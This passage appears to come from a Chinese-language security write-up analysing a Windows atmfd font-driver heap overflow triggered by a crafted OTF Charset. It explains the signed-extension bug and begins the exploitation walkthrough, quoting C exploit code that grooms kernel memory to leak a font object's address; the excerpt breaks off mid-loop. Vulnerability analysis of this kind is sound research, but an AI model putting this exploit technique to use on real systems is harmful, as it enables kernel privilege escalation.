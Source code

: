 ```
```

我们可以看到，这里参数a3是一个有符号的16位数，当a3>0x8000的时候，movsx会将其扩展成0xffff8xxx，因此下面的写操作就变成了堆上溢，会往给出的缓存地址的前面写入。这是一个典型的由于符号溢出引发的堆上溢漏洞。

了解了漏洞的原理后，我们来继续分析OTF文件是如何触发该问题的，通过调试结合Adobe的文档我们可以知道，是在处理OTF文件中CFF表的Charset过程引发的问题。

我们可以通过T2F Analyzer来观察这个被加载的OTF字体文件的格式。见下图：

![enter image description here](http://drops.javaweb.org/uploads/images/815b33959237197e2ff8757637e4aeedf48e71d6.jpg)

显而易见，样本OTF文件中构造了超长的Charset，然后通过NamedEscape函数的0x2514命令来获取Charset的时候，就会触发到上面描述的触发点，引发符号溢出。

0x02 漏洞利用
=========

* * *

我们从头再看一下漏洞利用的流程，整个流程主要分这么几个部分：

1 找到内核字体对象的地址

由于内核字体内存的布局无法直接被Ring3代码探知，利用代码中使用了一个特殊的技巧来实现获得内核字体对象的地址，在利用代码中，先加载字体，然后立刻创建一个Bitmap对象，再连续多次加载这个字体，由于win32k和atmfd中共用了内存堆处理函数，因此会导致Bitmap对象和字体对象是正好相邻的。 由于Bitmap这类user/gdi对象的实际内核地址可以通过映射到Ring3的GdiSharedHandleTable获得，因此这样也就可以间接获得攻击代码加载到内核的字体对象的范围。 最后，由于NamedEscape函数调用atmfd设备的0x250A号命令可以指定对象的地址，并校验字体对象的有效性同时将字体对象读出来，因此攻击代码结合Bitmap定位和NamedEscape的0x250a指令，就可以准确获取字体对象的地址，相关的代码如下：

```
01  while (found == 0) {
02  unsigned char fontloaded = 0;
03  for (j = 0; j < 15; j++) {
04  tmp[0] = 0;
05  fhandle = lpTable->fpAddFontMemResourceEx(lpTable->lpLoaderConfig->foofont, sizeof(lpTable->lpLoaderConfig->foofont), 0, &tmp[0]);
06  if (fhandle){
07  fontloaded = 1;
08  }
09  }
10  if (fontloaded == 0) {
11  return -1;
12  }
13   
14  if (lpTable->locals->is64)
15  j = (unsigned int)lpTable->fpCreateBitmap(smallbitmapw64, smallbitmaph64, 1, 32, buf64);
16  else
17  j = (unsigned int)lpTable->fpCreateBitmap(smallbitmapw32, smallbitmaph32, 1, 32, buf32);
18   
19  if (lpTable->locals->is64) {
20  tmp[0] = handleaddr64low(j);
21  tmp[1] = handleaddr64high(j);
22  }
23  else
24  tmp[0] = handleaddr(j);
25   
26  min = tmp[0] - 0x4000;
27  max = tmp[0] + 0x4000;
28   
29  for (j = 0; j < 15; j++) {
30  tmp[0] = 0;
31  lpTable->fpAddFontMemResourceEx(lpTable->lpLoaderConfig->foofont, sizeof(lpTable->lpLoaderConfig->foofont), 0, &tmp[0]);
32  }
33   
34  for (i = min; i < max; i += 8) {
35  int ret;
36   
37  *(unsigned int*)inbuf = i;
```